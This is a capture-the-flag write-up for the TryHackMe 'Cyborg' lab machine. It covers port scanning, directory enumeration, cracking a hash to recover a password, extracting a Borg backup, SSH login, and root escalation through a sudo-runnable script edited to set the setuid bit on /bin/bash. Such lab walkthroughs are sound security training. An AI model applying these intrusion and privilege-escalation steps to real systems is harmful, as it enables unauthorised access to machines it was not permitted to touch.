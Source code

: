 # TryHackMe - Cyborg Machine Report

![--](https://miro.medium.com/v2/resize:fit:720/format:webp/0*flpWg149E1VZ8Dhy.jpeg)

## Target IP
```
10.10.138.120
```

## 1. Port Scanning

```bash
nmap -sT -p- -oN Cyborg/fullscan.txt 10.10.138.120
```

### Output:
```
22/tcp  open  ssh
80/tcp  open  http
```

## 2. Directory Enumeration

```bash
gobuster dir -u http://10.10.138.120 -w /usr/share/wordlists/common.txt
```

### Output:
```
/admin
/etc
```

## 3. Hash Cracking from /etc

- Navigated to `/etc` directory.
- Found a string like: `music-archive : <hash>`
- Saved the hash to a file named `hash.txt` and cracked it using John:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Output:
```
Password found: squidward
```

## 4. Exploiting Admin Panel

- Accessed `/admin` directory.
- Based on admin communication, identified **Borg Backup** usage.
- Downloaded `final_archive` from the web interface or discovered path.

## 5. Extracting Archive Contents

```bash
borg extract final_archive::music_archive
```

- The extraction revealed a directory named `home`.

```bash
cd home/alex/Documents
cat note.txt
```

- Found the password for user `alex`.

## 6. SSH Access & User Flag

```bash
ssh alex@10.10.138.120
```

- Logged in with the discovered password.
- Listed files and found the user flag:

```bash
ls
cat user.txt
```

## 7. Privilege Escalation

```bash
sudo -l
```

### Output:
```
User alex may run the following command on cyborg:
    (ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- Changed permissions and modified the script:

```bash
chmod 777 /etc/mp3backups/backup.sh
nano /etc/mp3backups/backup.sh
```

- Inserted the following line:

```bash
chmod u+s /bin/bash
```

- Saved and executed:

```bash
sudo /etc/mp3backups/backup.sh
/bin/bash -p
```

- Gained root shell, then:

```bash
cd /root
cat root.txt
```
